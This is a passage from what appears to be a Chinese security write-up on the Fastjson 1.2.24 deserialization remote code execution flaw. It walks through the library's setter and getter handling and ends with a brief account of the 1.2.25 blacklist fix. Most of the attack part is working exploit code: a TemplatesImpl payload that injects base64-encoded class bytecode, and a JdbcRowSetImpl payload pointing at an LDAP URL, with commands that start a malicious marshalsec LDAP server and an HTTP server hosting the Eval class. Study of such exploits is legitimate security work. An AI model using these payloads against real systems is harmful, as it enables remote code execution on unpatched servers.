                        if (atomic != null) {
                            atomic.set(((AtomicLong)value).get());
                        }
                    } else if (this.fieldInfo.fieldClass == AtomicBoolean.class) {
                        AtomicBoolean atomic = (AtomicBoolean)method.invoke(object);
                        if (atomic != null) {
                            atomic.set(((AtomicBoolean)value).get());
                        }
                    } else if (Map.class.isAssignableFrom(method.getReturnType())) {
                        Map map = (Map)method.invoke(object);
                        if (map != null) {
                            map.putAll((Map)value);
                        }
                    } else {
                        Collection collection = (Collection)method.invoke(object);
                        if (collection != null) {
                            collection.addAll((Collection)value);
                        }
                    }
                } else {
                    method.invoke(object, value);
                }

            } else {
                Field field = this.fieldInfo.field;
                if (this.fieldInfo.getOnly) {
                    if (this.fieldInfo.fieldClass == AtomicInteger.class) {
                        AtomicInteger atomic = (AtomicInteger)field.get(object);
                        if (atomic != null) {
                            atomic.set(((AtomicInteger)value).get());
                        }
                    } else if (this.fieldInfo.fieldClass == AtomicLong.class) {
                        AtomicLong atomic = (AtomicLong)field.get(object);
                        if (atomic != null) {
                            atomic.set(((AtomicLong)value).get());
                        }
                    } else if (this.fieldInfo.fieldClass == AtomicBoolean.class) {
                        AtomicBoolean atomic = (AtomicBoolean)field.get(object);
                        if (atomic != null) {
                            atomic.set(((AtomicBoolean)value).get());
                        }
                    } else if (Map.class.isAssignableFrom(this.fieldInfo.fieldClass)) {
                        Map map = (Map)field.get(object);
                        if (map != null) {
                            map.putAll((Map)value);
                        }
                    } else {
                        Collection collection = (Collection)field.get(object);
                        if (collection != null) {
                            collection.addAll((Collection)value);
                        }
                    }
                } else if (field != null) {
                    field.set(object, value);
                }

            }
        } catch (Exception e) {
            throw new JSONException("set property error, " + this.fieldInfo.name, e);
        }
    }
}
```

进行方法调用，先不管他会用哪个`method.invoke(object, value);`，我现在需要他进入条件语句`if (method != null) { if (this.fieldInfo.getOnly) { } }`，但是我写的poc只有属性，并没有方法，详细看代码，他会根据方法名自发的调用 getter 方法，所以需要加`_outputProperties`，最终 poc 如下

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import javassist.ClassPool;

public class TemplatesImplPoc {
    public static void main(String[] args) throws Exception {
        byte[] bytecodes = ClassPool.getDefault().get(org.Base.Eval.class.getName()).toBytecode();

        String base64Bytecodes = java.util.Base64.getEncoder().encodeToString(bytecodes);

        String payload = String.format(
                "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                        "\"_name\":\"\"," +
                        "\"_tfactory\":{}," +
                        "\"_bytecodes\":[\"%s\"]," +
                        "\"_outputProperties\":{}}",
                base64Bytecodes
        );
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```



调用栈如下

```java
at org.Base.Eval.<init>(Eval.java:11)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:85)
at com.alibaba.fastjson.parser.deserializer.DefaultFieldDeserializer.parseField(DefaultFieldDeserializer.java:83)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseField(JavaBeanDeserializer.java:773)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:600)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:188)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:193)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:197)
at TemplatesImplPoc.main(TemplatesImplPoc.java:19)
```

### JdbcRowSetImpl

JdbcRowSetImpl 这里调用的就不是 getter 方法了，而是 setter 方法，为什么呢？首先 dataSource 肯定要有，我们进入到 JdbcRowSetImpl 类发现，既有setter 方法又有 getter 方法，这种情况是优先 setter 也就是直接



那回到 JdbcRowSetImpl 类我们看看如何进行注入的

```java
public void setDataSourceName(String var1) throws SQLException {
    if (this.getDataSourceName() != null) {
        if (!this.getDataSourceName().equals(var1)) {
            super.setDataSourceName(var1);
            this.conn = null;
            this.ps = null;
            this.rs = null;
        }
    } else {
        super.setDataSourceName(var1);
    }

}
```

跟进下

```java
public void setDataSourceName(String name) throws SQLException {

        if (name == null) {
            dataSource = null;
        } else if (name.equals("")) {
           throw new SQLException("DataSource name cannot be empty string");
        } else {
           dataSource = name;
        }

        URL = null;
    }
```

发现就是赋值 url，那我们现在还需要找一个能够触发 connect 的 setter方法，发现了 setAutoCommit

```java
public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

赋值的话无所谓，都会到 connect，直接给出poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        String payload = String.format(
                "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                    "\"dataSourceName\":\"ldap://127.0.0.1:1389/#Eval\"," +
                    "\"autoCommit\":true}"
        );

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

开启恶意服务

```bash
javac Eval.java
python3 -m http.server 9999

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:9999/#Eval"
```



调用栈如下

```java
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1092)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:624)
at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:96)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:593)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseRest(JavaBeanDeserializer.java:922)
at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_JdbcRowSetImpl.deserialze(Unknown Source:-1)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:193)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:197)
at org.fastjson.JdbcRowSetImplPOC.main(JdbcRowSetImplPOC.java:14)
```

## 修复

从1.2.25开始对这个漏洞进行了修补，修补方式是将TypeUtils.loadClass替换为checkAutoType()函数：



使用白名单和黑名单的方式来限制反序列化的类，只有当白名单不通过时才会进行黑名单判断，这种方法显然是不安全的，白名单似乎没有起到防护作用，后续的绕过都是不在白名单内来绕过黑名单的方式，黑名单里面禁止了一些常见的反序列化漏洞利用链

> https://xz.aliyun.com/news/11542
>
> https://xz.aliyun.com/news/8533
>
> https://klearcc.github.io/post/javasec_fastjson%E5%85%A8%E7%89%88%E6%9C%AC/
>
> https://blog.csdn.net/Myon5/article/details/136573933
>
> https://github.com/vulhub/vulhub/blob/master/fastjson/1.2.24-rce/README.zh-cn.md
